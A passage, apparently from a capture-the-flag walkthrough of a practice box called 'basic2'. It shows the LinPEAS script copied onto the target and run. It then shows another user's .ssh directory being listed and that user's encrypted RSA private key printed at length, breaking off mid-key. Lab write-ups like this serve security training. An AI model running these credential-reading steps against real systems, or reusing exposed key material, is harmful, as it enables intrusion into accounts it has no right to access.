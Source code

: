     scp /root/Desktop/Tools/LinPeas... jan@10.10.90.140:/dev/shm
    
    jan@basic2:~$ cd /dev/shm
    jan@basic2:~$ ./linpeas.sh | tee linlog.txt
    
    jan@basic2:/home/kay/.ssh$ ls -la
    total 20
    drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
    drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
    -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
    -rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
    -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
    jan@basic2:/home/kay/.ssh$ cat id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75
    
    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